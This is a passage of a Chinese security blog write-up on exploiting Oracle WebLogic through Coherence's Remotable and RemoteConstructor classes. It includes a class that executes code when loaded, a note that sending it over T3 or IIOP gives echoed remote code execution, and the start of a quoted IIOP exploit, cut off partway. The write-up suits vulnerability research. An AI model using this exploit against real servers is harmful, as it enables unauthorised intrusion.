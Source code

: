 运行之后：

[![](https://tva1.sinaimg.cn/large/007S8ZIlly1ghlp50r3e0j31b40u0tsp.jpg)](https://tva1.sinaimg.cn/large/007S8ZIlly1ghlp50r3e0j31b40u0tsp.jpg)

成功把test1的内容给执行了，但是还有个报错。`org.iiop.test1$0BC03FF199F8E95021E1281BDFAAA032 cannot be cast to com.tangosol.internal.util.invoke.Remotable`没有实现Remotable接口，那就改写下test1。

```
package org.iiop;

import com.tangosol.internal.util.invoke.Remotable;
import com.tangosol.internal.util.invoke.RemoteConstructor;

public class test1 implements Remotable `{`
    static `{`
        System.out.println("success");
`}`

    @Override
    public RemoteConstructor getRemoteConstructor() `{`
        return null;
`}`

    @Override
public void setRemoteConstructor(RemoteConstructor remoteConstructor) `{`

    `}`
`}`
```

最终成功，无报错：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://tva1.sinaimg.cn/large/007S8ZIlly1ghlp6v58jnj31640a8my5.jpg)

基本框架结束以后，在外面套一个T3协议或者iiop发送出去，即可rce。因为使用的是defineClass所以是可以直接回显的。 这边我直接给出UnicodeSec的利用iiop回显代码，其中有个小bug，我修改了一下一点点代码： 因为他的逻辑是if(iiopCtx.lookup(“UnicodeSec”) == null)我在测试过程中发现，因为第一次不存在UnicodeSec一定会是报错，导致一直不能进入rebind，一直循环在if这里，所以我采用try的方法，其他代码不变

```
package org.iiop;

import com.tangosol.internal.util.invoke.ClassDefinition;
import com.tangosol.internal.util.invoke.ClassIdentity;
import com.tangosol.internal.util.invoke.RemoteConstructor;
import javassist.ClassPool;
import javassist.CtClass;
import weblogic.cluster.singleton.ClusterMasterRemote;
import weblogic.jndi.Environment;

import javax.naming.Context;
import javax.naming.NamingException;
import java.rmi.RemoteException;

/**
 * created by UnicodeSec potatso
 */
public class App `{`
    public static void main(String[] args) throws Exception `{`
        String text = "                   ___   ___ ___   ___        __ __ _  _     __ _  _   _  _                     \n" +
                "                  |__ \\ / _ \\__ \\ / _ \\      /_ /_ | || |   / /| || | | || |                    \n" +
                "   _____   _____     ) | | | | ) | | | |______| || | || |_ / /_| || |_| || |_    _____  ___ __  \n" +
```